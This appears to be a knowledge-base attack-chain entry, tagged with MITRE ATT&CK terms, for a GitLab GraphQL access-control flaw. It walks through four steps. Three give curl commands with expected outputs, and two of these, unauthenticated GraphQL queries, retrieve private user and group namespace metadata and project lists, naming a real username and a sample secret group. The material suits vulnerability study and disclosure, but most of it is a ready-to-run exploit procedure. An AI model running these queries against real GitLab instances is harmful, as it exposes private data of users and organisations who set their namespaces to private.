

---
tags:
  - graphql
  - access-bypass
  - gitlab
  - api-leak
  - private-data
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Verify-Private-Namespace-Inaccessibility-via-Web]]'
  - '[[procedures/Test-REST-API-Access-Restrictions]]'
  - '[[procedures/Exploit-GraphQL-for-Private-User-Namespace-Data]]'
  - '[[procedures/Exploit-GraphQL-for-Private-Group-Namespace-Data]]'
step_count: 4
techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:59.929Z'
description: >-
  Multi-stage attack chain exploiting improper access controls in GitLab's
  GraphQL API to leak private user and group namespace data without
  authentication.
skill_level: intermediate
impact_level: high
id: 22c21ab2-c619-4078-8d1c-706ef87b562f
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
---
# GitLab GraphQL Namespace Query Bypassing Private Access Controls

Multi-stage attack chain demonstrating exploitation of improper access controls in GitLab's GraphQL API, allowing unauthenticated retrieval of private user and group metadata that is otherwise protected.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- GitLab instance (e.g., gitlab.com)
- Public-facing GraphQL API endpoint (/api/graphql)
- No authentication required for exploitation

### Initial Access Requirements

- Internet access to GitLab public instance
- Knowledge of target namespace fullPath (e.g., username or group path)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Verify Private Namespace Inaccessibility via Web

procedure: [[procedures/Verify-Private-Namespace-Inaccessibility-via-Web]]

**Objective**: Confirm that the target user or group profile is set to private and inaccessible through the standard web interface, establishing the baseline for privacy controls.

**Instructions**: Navigate to the target profile URL in a web browser to check visibility. For example, access https://gitlab.com/rpadovani for a private user profile.

**Expected Output**: Browser displays a "Private" message or access denied page, with no project lists or details visible.

**Success Indicators**:
- Profile shows as private
- Contributed projects page (e.g., /users/rpadovani/contributed) is restricted

### Step 2: Test REST API Access Restrictions

procedure: [[procedures/Test-REST-API-Access-Restrictions]]

**Objective**: Demonstrate that the REST API enforces proper access controls, failing to retrieve private namespace data even with an unauthorized token, highlighting the GraphQL-specific flaw.

**Instructions**: Use [[commands/curl-rest-namespace-access-test]] to query the REST API endpoint with a token from another user:

```bash
curl --header "PRIVATE-TOKEN: anotherUserToken" 'https://gitlab.com/api/v4/namespaces/16048'
```

**Expected Output**: JSON response with {"message":"404 Namespace Not Found"}.

**Success Indicators**:
- API returns 404 error
- Confirms REST API does not leak private data

### Step 3: Exploit GraphQL for Private User Namespace Data

procedure: [[procedures/Exploit-GraphQL-for-Private-User-Namespace-Data]]

**Objective**: Bypass access controls by querying the GraphQL API without authentication to retrieve private user namespace details, including projects and metadata.

**Instructions**: Send a GraphQL query using [[commands/curl-graphql-user-namespace-query]] to the /api/graphql endpoint:

```bash
curl 'https://gitlab.com/api/graphql' -H 'Content-Type: application/json' --data '{"query":"{namespace(fullPath:\"rpadovani\") {description\n requestAccessEnabled\n fullName\n fullPath\n id\n lfsEnabled\n name\n path\n visibility\n projects (includeSubgroups: true, ) {edges {node {id\n name\n archived\n visibility\n description}}}}}","variables":null,"operationName":null}'
```

**Expected Output**: JSON with namespace data, e.g., {"data":{"namespace":{"description":"","requestAccessEnabled":true,"fullName":"rpadovani",..."projects":{"edges":[{"node":{"id":"gid://gitlab/Project/11265641","name":"737-max-8",...}}]}}}}.

**Success Indicators**:
- Private user details leaked
- Project list including descriptions and visibility retrieved

### Step 4: Exploit GraphQL for Private Group Namespace Data

procedure: [[procedures/Exploit-GraphQL-for-Private-Group-Namespace-Data]]

**Objective**: Extend the exploitation to private groups, leaking group metadata and confirming the vulnerability affects group namespaces as well.

**Instructions**: Repeat the GraphQL query pattern using [[commands/curl-graphql-group-namespace-query]] for a secret group:

```bash
curl 'https://gitlab.com/api/graphql' -H 'Content-Type: application/json' --data '{"query":"{namespace(fullPath:\"secret-group-213\") {description\n requestAccessEnabled\n fullName\n fullPath\n id\n lfsEnabled\n name\n path\n visibility\n projects (includeSubgroups: true, ) {edges {node {id\n name\n archived\n visibility\n description}}}}}","variables":null,"operationName":null}'
```

**Expected Output**: JSON revealing private group info, e.g., {"data":{"namespace":{"description":"This description is secret!","visibility":"private",...}}}.

**Success Indicators**:
- Group description and visibility leaked
- Confirms broad impact on private namespaces

## Attack Chain Summary

### Key Achievements

1. Verified privacy controls via web and REST API
2. Bypassed restrictions using unauthenticated GraphQL queries
3. Leaked private user and group metadata, including projects
4. Demonstrated ineffectiveness of GitLab's private visibility features

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Account Discovery]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
